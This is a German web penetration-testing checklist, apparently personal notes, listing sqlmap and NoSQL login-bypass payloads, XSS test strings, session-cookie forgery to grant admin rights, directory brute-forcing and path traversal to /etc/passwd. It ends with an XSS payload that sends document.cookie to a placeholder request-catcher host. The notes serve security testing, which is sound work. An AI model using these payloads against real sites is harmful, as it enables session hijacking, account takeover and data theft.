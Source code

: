 ## Checkliste Web-Pentesting
1. Passive & Active Scan mit OWASP ZAP / Mit Authentication und Proxy

2. Nach SQLi suchen
	- sqlmap
	`sqlmap.py -u [POST-GET-URL] --dbs`
	
	- Zeichen Injection
	`'` `;` `&&`
	[SQLi Cheat Sheet (1)](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
	[SQLi Cheat Sheet (2)](https://portswigger.net/web-security/sql-injection/cheat-sheet)

	- No-SQL-Attack-Suite
	`python3 nosql-login-bypass.py -t [POST-URL] -u customer0 -p compass`
	
	- NoSQLi Bypass Login
	`{"$ne": 0}`
	`{"$ne": -1}`
	`{"$gt":""}`

3. Nach XSS-Schwachstellen suchen
	- Manuelle Injection mit `<script>alert("XSS");</script>`
	- Automatisierte Injection mit [traxss](https://www.geeksforgeeks.org/traxss-automated-xss-vulnerability-scanner/)
	`python3 traxss.py`
	`python3 xsstrike.py -u [URL]`

4. Session Cookie admin flag prüfen
	- Session Cookies beginnen meist mit `ey`
	- Cookiename behinhaltet meistens Session
	- In ZAP nach Login das Session Cookie abrufen / Oder in Browser Console
	![[CleanShot 2022-09-28 at 09.55.23.png]]
	- Prüfen ob Session Cookie einfach verschlüsselt ist ([CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')))	
	- Wenn Session Cookie entschlüsselbar versuchen admin Flag zu setzen
		- Meist `role:user` > `role:admin`  oder `admin:0` > `admin:1` 
	- Session Cookie über Browser Console eingeben oder direkt im Storage teil editieren `document.cookie="_sess=eyJ1c2VybmFtZSI6ImxlZXRoYWNrZXIiLCJhZG1pbiI6MX0="`
	![[CleanShot 2022-10-27 at 20.34.55.png]]

5. Mit dirbuster / gobuster Website auf versteckte Verzeichnise Scannen 
	`dirb [URL] [WORDLIST]`
	`gobuster dir -u [URL] -w [WORDLIST]`

6. Testen ob Seiten existieren
	- 403 / 404 kann Hinweis geben ob Seite existiert oder nicht (Beispiel ob User-Profil existiert oder nicht)

7. HTML Source Code checken
	- Kommentare mit Test Username / Links
	- Eingesetzte Software (-version)

8. URL prüfen
	- URL manipulieren. Beispiel ID ändern:
		`http://localhost:2501/updateblog?id=7`
	
	- POST-URL manipulieren
		![[CleanShot 2022-10-26 at 21.13.50.png]]
	
	- Path Traversal / Local file Inclusion (Auf versteckte Dateien prüfen)
	`http://localhost:2501/../../../../../../../etc/passwd`
	`http://localhost:2501/app.php?page=../../../../../../etc/passwd`

9. Berechtigung auf Unterseiten testen
	- Testen ob der Zugriff auf gewisse URLs auch als nicht berechtigter User oder Besucher funktioniert

10. Testen auf Fehlermeldungen
	- Zuviele Details in Fehlermeldungen können als Sicherheitslücke bewertet werden

## Tipps
- Persisten Log in Browser Network Console aktivieren
![[CleanShot 2022-10-13 at 20.32.05.png]]

- Session Cookie in Browser ändern (Browser Tools > Storage > Nach "session" suchen)
![[CleanShot 2022-10-30 at 20.00.46.png]]

- Cookie an Request Catcher senden (XSS)
```
`<script>document.location="[URL-Request-Catcher]?cookie=" + document.cookie;</script>`
```